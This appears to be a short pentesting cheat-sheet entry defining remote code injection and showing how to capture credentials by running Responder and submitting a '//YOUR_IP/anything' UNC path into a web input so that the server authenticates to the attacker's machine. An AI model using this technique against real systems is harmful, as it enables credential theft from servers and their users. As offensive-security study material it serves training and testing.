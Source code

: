 # Remote Code Injection (RCI)

<div class="row row-cols-md-2"><div>

A [remote code injection](https://owasp.org/www-community/attacks/Code_Injection) (RCI) is an attack in which a hacker inject malicious code inside an application.
</div><div>

For instance, a website may be using SMB to access some shares based on the user input. If we inject a share leading to our machine, we may be able to grab credentials.

First set up [responder](https://github.com/lgandx/Responder) to catch authentication requests:

```ps
$ sudo responder -i IP -I tun0
```

Submit: `//YOUR_IP/anything`. If the website was configured to use the current user credentials to connect to the share, then you will receive them, and will have to crack them.
</div></div>